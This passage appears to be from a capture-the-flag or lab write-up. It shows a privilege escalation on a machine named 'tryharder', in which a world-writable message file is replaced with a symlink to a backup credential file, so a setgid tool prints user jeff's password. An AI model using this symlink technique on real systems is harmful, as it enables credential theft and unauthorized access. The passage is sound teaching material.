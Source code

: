If we choose the second option ("restore your password"), it will display a message that seems to be taken from the `message.txt` file in the same directory, and that is writable by anybody:

~~~
Chose your option: 2
2


Jeff, you should login with your own account to view/change your password. I hope you haven't forgotten it.


1 ) View process information.
2 ) Restore your password.
3 ) Exit 
Chose your option: 3
3
backupmgr@tryharder:/opt/systools$ cat message.txt
cat message.txt
Jeff, you should login with your own account to view/change your password. I hope you haven't forgotten it.
backupmgr@tryharder:/opt/systools$ ls -la message.txt
ls -la message.txt
-rwxrwxrwx 1 root root 108 May 24 13:19 message.txt
~~~

Now, what is interesting is that the binary is owned by `jeff` and the `message.txt` file is world writable, which means we can make a symbolic link to `jeff.bak`:

~~~
backupmgr@tryharder:/opt/systools$ ln -sf /var/backups/jeff.bak message.txt
ln -sf /var/backups/jeff.bak message.txt
backupmgr@tryharder:/opt/systools$ ls -la
ls -la
total 28
drwxrwxrwx 2 jeff      jeff       4096 Sep  6 18:31 .
drwxr-xr-x 4 root      root       4096 May 24 13:13 ..
lrwxrwxrwx 1 backupmgr backupmgr    21 Sep  6 18:31 message.txt -> /var/backups/jeff.bak
-rwxr-sr-x 1 jeff      pwman     17160 May 24 13:18 systool
backupmgr@tryharder:/opt/systools$ ./systool
./systool
Welcome to Jeffs System Administration tool.
This is still a very beta version and some things are not implemented yet.
Please Select an option from below.
1 ) View process information.
2 ) Restore your password.
3 ) Exit 
Chose your option: 2
2


Your Password is: 123-My-N4M3-1z-J3ff-123 


1 ) View process information.
2 ) Restore your password.
3 ) Exit 
Chose your option: 
~~~

